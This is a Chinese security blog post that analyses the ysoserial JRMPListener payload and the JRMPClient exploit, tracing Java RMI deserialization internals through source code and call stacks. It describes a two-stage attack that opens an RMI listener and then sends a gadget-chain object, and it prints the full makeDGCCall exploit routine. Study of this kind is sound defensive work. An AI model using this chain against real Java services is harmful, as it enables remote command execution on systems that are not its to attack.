Java安全之ysoserial JRMP分析

* * *

# Java安全之ysoserial JRMP分析

## 相关类

**sun.rmi.transport.tcp.TCPEndpoint**：用于表示基于 TCP 的远程通信终点（endpoint）的类。它包含了远程主机的主机名（hostname）和端口号（port number），用于建立 TCP 连接。  
此类主要用于在 Java RMI 中表示 TCP 通信的终点，它指定了远程主机的主机名和端口号。在 Java RMI 的远程对象调用过程中，TCPEndpoint 用于建立与远程主机的 TCP 连接，并进行网络通信  
**java.rmi.server.ObjID**：用于在 Java RMI 中唯一标识远程对象。每个远程对象都具有一个唯一的 ObjID。这些标识符用于在远程通信中识别和定位对象。  
**sun.rmi.server.UnicastRef**：用于表示单播（Unicast）通信模式下的远程引用。它实现了 RemoteRef 接口，用于在远程对象之间进行通信。  
**sun.rmi.transport.LiveRef**：用于表示远程对象的活动引用，其中包含了远程对象的通信地址、通信端口和标识符等信息。它在 Java RMI 的远程对象调用过程中被使用，以便建立与远程对象的通信连接并进行远程方法调用。  
**java.rmi.server.RemoteObjectInvocationHandler**：用于在 Java RMI 中实现代理模式，充当远程对象的调用处理程序。当客户端通过代理对象调用远程对象的方法时，RemoteObjectInvocationHandler 接收到方法调用并将其转发给远程对象。它负责处理与远程对象之间的通信和结果的返回。  
**sun.rmi.server.UnicastServerRef**：UnicastServerRef 类是 Java RMI 中用于实现基于单播通信方式的服务器端引用的关键类。它负责管理服务器端引用的创建、通信和远程方法调用的转发，以及序列化和反序列化等功能。  
**sun.rmi.transport.Target**：是 Java RMI 中用于封装远程对象信息和远程通信目标的类。它包含了远程对象本身、骨架、目标地址和对象标识符等信息，用于在远程通信中确定目标并进行相应的处理。  
**java.rmi.dgc.DGC**:是 Java RMI 框架中实现分布式垃圾回收的核心组件之一。它通过管理远程对象的生命周期和执行垃圾回收操作，确保远程对象的资源能够被正确释放，从而提高系统的性能和可靠性。  
**sun.rmi.transport.DGCImpl\_Skel**:是 Java RMI 框架中实现分布式垃圾回收的关键组件之一。它作为服务器端的骨架类，接收远程垃圾回收调用请求，并将其分派给具体的垃圾回收实现。通过该类的协作，可以实现远程对象的垃圾回收功能，并确保资源的释放和系统的可靠性。

## 第一部分

### 生成payload复现

**环境设置**：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20230810224342-4d33a256-378c-1.png)  
最终生成payload

### payloads.JRMPListener生成payload

生成Payload Object的主要在于JRMPListener的getObject方法

```plain
public UnicastRemoteObject getObject ( final String command ) throws Exception {
    // 端口
    int jrmpPort = Integer.parseInt(command);
    UnicastRemoteObject uro = Reflections.createWithConstructor(ActivationGroupImpl.class, RemoteObject.class, new Class[] {
        RemoteRef.class
    }, new Object[] {
        new UnicastServerRef(jrmpPort)
    });

    Reflections.getField(UnicastRemoteObject.class, "port").set(uro, jrmpPort);
    return uro;
}
```

在程序第二句使用Reflections.createWithConstructor方法构造一个UnicastRemoteObject对象，传递了四个参数  
观察传入的第四个参数，将端口作为参数new一个UnicastServerRef对象，进入该类构造函数

```plain
public UnicastServerRef(int var1) {
    // LiveRef是UnicastServerRef的父类UnicastRef的嵌套类，它表示一个远程对象的引用
    super(new LiveRef(var1));
    this.forceStubUse = false;
    this.hashToMethod_Map = null;
}
```

进入LiveRef的构造函数

```plain
public LiveRef(int var1) {
    this(new ObjID(), var1);
}
```

继续进入ObjID的构造函数

```plain
public ObjID() {
    /*
        * If generating random object numbers, create a new UID to
        * ensure uniqueness; otherwise, use a shared UID because
        * sequential object numbers already ensure uniqueness.
        */
    if (useRandomIDs()) {
        // 如果使用随机对象编号，创建一个新的UID对象，并将其赋值给space字段。UID是Java中的唯一标识符，用于表示全局唯一的标识符
        space = new UID();
        // 生成一个随机的long类型的对象编号
        objNum = secureRandom.nextLong();
    } else {
        space = mySpace;
        objNum = nextObjNum.getAndIncrement();
    }
}
```

返回至LiveRef的构造函数，进行了构造函数的重载

```plain
public LiveRef(ObjID var1, int var2) {
    this(var1, TCPEndpoint.getLocalEndpoint(var2), true);
}
```

其中var1是获取的objID，第二个参数经过了一个方法处理，传入的参数是端口  
进入TCPEndpoint.getLocalEndpoint方法

```plain
public static TCPEndpoint getLocalEndpoint(int var0) {
    return getLocalEndpoint(var0, (RMIClientSocketFactory)null, (RMIServerSocketFactory)null);
}
```

这里也是对方法的重构，进入重构的方法

```plain
public static TCPEndpoint getLocalEndpoint(int var0, RMIClientSocketFactory var1, RMIServerSocketFactory var2) {
    TCPEndpoint var3 = null;
    // 对localEndpoints对象进行同步锁定，确保线程安全
    synchronized(localEndpoints) {
        TCPEndpoint var5 = new TCPEndpoint((String)null, var0, var1, var2);
        // 根据var5从localEndpoints中获取对应的端点列表
        LinkedList var6 = (LinkedList)localEndpoints.get(var5);
        // 调用resampleLocalHost()方法获取本地主机地址
        String var7 = resampleLocalHost();
        // 表示还没有对应的端点存在
        if (var6 == null) {
            // 创建一个新的TCPEndpoint对象，使用本地主机地址var7、端口号var0以及指定的RMIClientSocketFactory和RMIServerSocketFactory
            var3 = new TCPEndpoint(var7, var0, var1, var2);
            // 创建一个新的LinkedList用于存储端点对象
            var6 = new LinkedList();
            var6.add(var3);
            var3.listenPort = var0;
            // 创建一个新的TCPTransport对象，并将端点列表作为参数传递给它
            var3.transport = new TCPTransport(var6);
            // 将端点列表添加到localEndpoints映射中，以var5为键
            localEndpoints.put(var5, var6);
            if (TCPTransport.tcpLog.isLoggable(Log.BRIEF)) {
                TCPTransport.tcpLog.log(Log.BRIEF, "created local endpoint for socket factory " + var2 + " on port " + var0);
            }
            // 存在端点
        } else {
            synchronized(var6) {
                // 获取列表中的最后一个端点对象
                var3 = (TCPEndpoint)var6.getLast();
                String var9 = var3.host;
                int var10 = var3.port;
                TCPTransport var11 = var3.transport;
                // 如果本地主机地址var7不为null且与最后一个端点的主机地址var9不相等
                if (var7 != null && !var7.equals(var9)) {
                    if (var10 != 0) {
                        // 清空端点列表
                        var6.clear();
                    }

                    var3 = new TCPEndpoint(var7, var10, var1, var2);
                    var3.listenPort = var0;
                    var3.transport = var11;
                    var6.add(var3);
                }
            }
        }

        return var3;
    }
}
```

该方法主要是用于获取本地端点对象，在第一个if条件下变量的值如下图  
[](https://xzfile.aliyuncs.com/media/upload/picture/20230810224432-6b38ca10-378c-1.png)  
接下来继续执行  
[](https://xzfile.aliyuncs.com/media/upload/picture/20230810224458-7a3e6d94-378c-1.png)  
最后返回var3  
回到LiveRef的构造函数，继续调用重载函数

```plain
public LiveRef(ObjID var1, Endpoint var2, boolean var3) {
    this.ep = var2;
    this.id = var1;
    this.isLocal = var3;
}
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20230810224524-89de0674-378c-1.png)  
紧接着一致返回，来到UnicastServerRef对象的构造函数，参数是上面获取的LiveRef对象，调用父类构造函数

```plain
public UnicastRef(LiveRef var1) {
    this.ref = var1;
}
```

此时前面提到的第四个参数中构建UnicastServerRef对象的步骤完成，主要是将其ref属性赋值为LiveRef对象

> LiveRef是Java RMI中用于管理远程对象引用的类，它提供了远程通信所需的信息和功能，以使代理对象能够与远程对象进行交互

继续观察createWithConstructor方法的内部实现

```plain
public static <T> T createWithConstructor ( Class<T> classToInstantiate, Class<? super T> constructorClass, Class<?>[] consArgTypes, Object[] consArgs )
        throws NoSuchMethodException, InstantiationException, IllegalAccessException, InvocationTargetException {
    Constructor<? super T> objCons = constructorClass.getDeclaredConstructor(consArgTypes);
    setAccessible(objCons);
    // 创建一个特殊的构造函数对象，以便在对象序列化期间使用
    Constructor<?> sc = ReflectionFactory.getReflectionFactory().newConstructorForSerialization(classToInstantiate, objCons);
    setAccessible(sc);
    return (T)sc.newInstance(consArgs);
}
```

*   classToInstantiate：要实例化的类的Class对象
*   constructorClass：构造函数所在类的Class对象
*   consArgTypes：构造函数的参数类型数组
*   consArgs：构造函数的参数值数组

[](https://xzfile.aliyuncs.com/media/upload/picture/20230810224554-9c092da6-378c-1.png)  
执行完构造函数后，返回至getObject方法，最后使用Reflections.getField方法将得到的UnicastRemoteObject对象的port属性设置为传入的端口的值，然后将对象返回。  
最后将得到的ActivationGroupImpl对象进行序列化得到payload

### payload反序列化复现

**环境设置**：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20230810224622-ac840660-378c-1.png)  
这一步其实包括上面的payload生成，只是在先写前面的部分未考虑后面的部分，现在分析对前面步骤生成的payload任何进行反序列化

### payloads.JRMPListener payload反序列化

函数调用栈：

```plain
listen:319, TCPTransport (sun.rmi.transport.tcp)
exportObject:249, TCPTransport (sun.rmi.transport.tcp)
exportObject:411, TCPEndpoint (sun.rmi.transport.tcp)
exportObject:147, LiveRef (sun.rmi.transport)
exportObject:208, UnicastServerRef (sun.rmi.server)
exportObject:383, UnicastRemoteObject (java.rmi.server)
exportObject:320, UnicastRemoteObject (java.rmi.server)
reexport:266, UnicastRemoteObject (java.rmi.server)
readObject:235, UnicastRemoteObject (java.rmi.server)
invoke0:-1, NativeMethodAccessorImpl (sun.reflect)
invoke:62, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:497, Method (java.lang.reflect)
invokeReadObject:1058, ObjectStreamClass (java.io)
readSerialData:1900, ObjectInputStream (java.io)
readOrdinaryObject:1801, ObjectInputStream (java.io)
readObject0:1351, ObjectInputStream (java.io)
readObject:371, ObjectInputStream (java.io)
deserialize:27, Deserializer (ysoserial)
deserialize:22, Deserializer (ysoserial)
run:38, PayloadRunner (ysoserial.payloads.util)
main:55, JRMPListener (ysoserial.payloads)
```

由前面生成的payload可知，序列化的对象是UnicastRemoteObject对象，现在对payload进行反序列化，故会调用UnicastRemoteObject的readObject方法

```plain
private void readObject(java.io.ObjectInputStream in)
    throws java.io.IOException, java.lang.ClassNotFoundException
{
    in.defaultReadObject();
    // 进入这里
    reexport();
}
```

进入reexport方法

```plain
private void reexport() throws RemoteException
{
    if (csf == null && ssf == null) {
        // 进入这里
        exportObject((Remote) this, port);
    } else {
        exportObject((Remote) this, port, csf, ssf);
    }
}
```

这里的this是ActivationGroupImpl对象，它继承了ActivationGroup类，而ActivationGroup类继承了UnicastRemoteObject类，归根结底是UnicastRemoteObject的子类，而UnicastRemoteObject继承了RemoteServer类，RemoteServer继承了RemoteObject类，RemoteObject类继承了Remote接口，所以这里强制转换没有问题，传入的依旧是ActivationGroupImpl类  
csf和ssf都为null，进入exportObject重载方法

```plain
public static Remote exportObject(Remote obj, int port)
    throws RemoteException
{
    return exportObject(obj, new UnicastServerRef(port));
}
```

继续进入UnicastRemoteObject类的重载方法

```plain
private static Remote exportObject(Remote obj, UnicastServerRef sref)
    throws RemoteException
{
    // if obj extends UnicastRemoteObject, set its ref.
    if (obj instanceof UnicastRemoteObject) {
        ((UnicastRemoteObject) obj).ref = sref;
    }
    // 这里
    return sref.exportObject(obj, null, false);
}
```

前面提到obj是ActivationGroupImp对象，故不会进入if，这里的sref是上一步传入的UnicastServerRef对象，故进入该类的exportObject方法

```plain
public Remote exportObject(Remote var1, Object var2, boolean var3) throws RemoteException {
    // 获取要导出的远程对象的类
    Class var4 = var1.getClass();

    Remote var5;
    try {
        // 创建代理对象
        // 该方法会根据指定的类、客户端引用和强制存根使用的标志来创建代理对象
        var5 = Util.createProxy(var4, this.getClientRef(), this.forceStubUse);
    } catch (IllegalArgumentException var7) {
        throw new ExportException("remote object implements illegal remote interface", var7);
    }
    // 检查代理对象类型
    if (var5 instanceof RemoteStub) {
        this.setSkeleton(var1);
    }
    // 创建 Target 对象
    // 该对象封装了要导出的远程对象、UnicastRemoteObject 对象、代理对象、对象标识符和是否启用存根的标志
    Target var6 = new Target(var1, this, var5, this.ref.getObjID(), var3);
    // 导出远程对象
    // 进入这里
    this.ref.exportObject(var6);
    this.hashToMethod_Map = (Map)hashToMethod_Maps.get(var4);
    return var5;
}
```

此方法用于导出一个远程对象，并返回一个代理对象。这里的this.ref是LiveRef对象，进入该类的exportObject方法，传入的参数是Target对象  
[](https://xzfile.aliyuncs.com/media/upload/picture/20230810224649-bc7592a0-378c-1.png)  
LiveRef的exportObject方法

```plain
public void exportObject(Target var1) throws RemoteException {
    this.ep.exportObject(var1);
}
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20230810224752-e231e142-378c-1.png)  
这里的this.ep是TCPEndpoint对象，进入该类的exportObject方法，传入的参数依旧是Target对象  
[](https://xzfile.aliyuncs.com/media/upload/picture/20230810224823-f4c7bca0-378c-1.png)  
这里的this.transport是TCPTransport对象，进入该类的exportObject方法，依旧传递Target参数

```plain
public void exportObject(Target var1) throws RemoteException {
    // 使用 synchronized(this) 创建一个同步块，以确保在导出过程中的线程安全性
    synchronized(this) {
        // 用于启动远程通信监听器，以便可以接收客户端的远程调用请求
        this.listen();
        ++this.exportCount;
    }
    ...
}
```

进入TCPTransport的listen方法，这个方法用于启动远程通信监听器，以便可以接收客户端的远程调用请求

```plain
private void listen() throws RemoteException {
    // 断言当前线程持有当前对象的锁
    assert Thread.holdsLock(this);
    // 获取目标对象的端口信息
    TCPEndpoint var1 = this.getEndpoint();
    int var2 = var1.getPort();
    if (this.server == null) {
        if (tcpLog.isLoggable(Log.BRIEF)) {
            tcpLog.log(Log.BRIEF, "(port " + var2 + ") create server socket");
        }

        try {
            // 创建服务器套接字
            this.server = var1.newServerSocket();
            // 该线程负责执行 AcceptLoop 对象，该对象用于接受客户端的连接请求
            Thread var3 = (Thread)AccessController.doPrivileged(new NewThreadAction(new AcceptLoop(this.server), "TCP Accept-" + var2, true));
            // 启动线程 var3
            var3.start();
        } catch (BindException var4) {
            throw new ExportException("Port already in use: " + var2, var4);
        } catch (IOException var5) {
            throw new ExportException("Listen failed on port: " + var2, var5);
        }
    } else {
        // 获取系统安全管理器
        SecurityManager var6 = System.getSecurityManager();
        if (var6 != null) {
            var6.checkListen(var2);
        }
    }
}
```

该代码段的作用是在指定端口上监听，并创建服务器套接字进行连接请求的接受  
[](https://xzfile.aliyuncs.com/media/upload/picture/20230810224850-04b69dc0-378d-1.png)  
观察其反序列化的过程，也能够理解Payload构造的原理

### 复现

payloads.JRMPListener的设置和上面一样  
[](https://xzfile.aliyuncs.com/media/upload/picture/20230810224915-13d2d026-378d-1.png)  
exploit.JRMPClient设置  
[](https://xzfile.aliyuncs.com/media/upload/picture/20230810224937-209c0f02-378d-1.png)  
服务端成功命令执行

### 攻击流程

1.  payloads.JRMPListener生成payload1，用于在服务器上开启一个rmi端口（这里的端也是服务端）
2.  服务端接收到payload1后，进行反序列化，成功开启9999端口并监听
3.  exploit.JRMPClient端生成恶意payload2，并向服务端发送
4.  服务端检测到端口上有数据请求，经过解包、反序列化（rmi中的知识）后导致命令执行

### exploit.JRMPClient分析

**第一步**：生成payload  
在exploit.JRMPClient的main函数中，使用下面这句代码生成CC1链所需要的payload

```plain
Object payloadObject = Utils.makePayloadObject(args[2], args[3]);
```

**第二步**：

```plain
makeDGCCall(hostname, port, payloadObject);
```

进入该函数

```plain
public static void makeDGCCall ( String hostname, int port, Object payloadObject ) throws IOException, UnknownHostException, SocketException {
    // 创建网络地址
    InetSocketAddress isa = new InetSocketAddress(hostname, port);
    Socket s = null;
    DataOutputStream dos = null;
    try {
        // 创建套接字和输出流
        s = SocketFactory.getDefault().createSocket(hostname, port);
        s.setKeepAlive(true);
        s.setTcpNoDelay(true);

        OutputStream os = s.getOutputStream();
        dos = new DataOutputStream(os);

        // 向输出流写入一系列字节，表示调用相关的信息。这些信息包括魔数、版本、协议类型、调用类型等
        dos.writeInt(TransportConstants.Magic);
        dos.writeShort(TransportConstants.Version);
        dos.writeByte(TransportConstants.SingleOpProtocol);

        dos.write(TransportConstants.Call);

        @SuppressWarnings ( "resource" )
        // 创建对象输出流
        final ObjectOutputStream objOut = new MarshalOutputStream(dos);
        // 向输出流写入 DGC 相关的信息，包括 DGC 标识、脏位、对象 ID 等
        objOut.writeLong(2); // DGC
        objOut.writeInt(0);
        objOut.writeLong(0);
        objOut.writeShort(0);

        objOut.writeInt(1); // dirty
        objOut.writeLong(-669196253586618813L);

        objOut.writeObject(payloadObject);

        os.flush();
    }
    finally {
        if ( dos != null ) {
            dos.close();
        }
        if ( s != null ) {
            s.close();
        }
    }
}
```

该方法用于向指定主机和端口发送一个 DGC（分布式垃圾回收）调用  
